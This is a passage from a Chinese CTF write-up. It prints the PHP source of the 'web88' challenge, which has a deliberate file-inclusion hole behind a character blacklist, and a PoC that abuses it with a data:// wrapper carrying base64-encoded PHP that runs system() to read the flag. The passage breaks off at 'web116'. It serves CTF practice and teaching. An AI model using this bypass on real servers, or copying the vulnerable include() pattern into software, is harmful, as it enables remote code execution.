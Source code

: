 #### web88

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多字符但是没有过滤:、/、;

poc

```
?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4
```



#### web116

拿到题目环境，发现是个视频，下载视频用binwalk扫一下
